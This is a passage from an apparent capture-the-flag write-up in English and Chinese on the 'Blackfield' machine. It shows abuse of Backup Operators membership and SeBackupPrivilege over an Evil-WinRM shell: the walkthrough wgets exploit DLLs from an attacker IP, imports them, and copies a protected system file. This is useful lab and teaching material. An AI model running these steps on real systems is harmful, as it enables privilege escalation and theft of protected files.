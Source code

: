 ```powershell
Password changeable          2/24/2020 10:54:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

`SeBackUpPrivilege` basically allows for full system read

[Backup Operators](https://www.backup4all.com/what-are-backup-operators-kb.html) is a default Windows group that is designed to backup and restore files on the computer using certain methods to read and write all (or most) files on the system.



## Copy-FileSeBackupPrivilege

[This repo](https://github.com/giuliano108/SeBackupPrivilege) has a nice set of PowerShell tools for abusing the `SeBackupPrivilege`. I’ll clone it, and then I’ll need to upload two files to Blackfields:

尝试上传 `SeBackupPrivilegeCmdLets.dll` 与 `SeBackupPrivilegeUtils.dll`，upload 这样上传很可能失败，用 wget 下载

```powershell
*Evil-WinRM* PS C:\programdata> upload SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\programdata> upload SeBackupPrivilegeUtils.dll
```

```powershell
wget -Uri http://10.10.16.5/SeBackupPrivilegeCmdLets.dll -OutFile ./SeBackupPrivilegeCmdLets.dll
```

```
wget -Uri http://10.10.16.5/SeBackupPrivilegeUtils.dll -OutFile ./SeBackupPrivilegeUtils.dll
```

然后导入

```powershell
*Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\programdata> import-module .\SeBackupPrivilegeUtils.dll
```



我们直接读取会失败，复制再读取会成功

```powershell
*Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege C:\windows\system32\config\netlogon.dns netlogon.dns
```
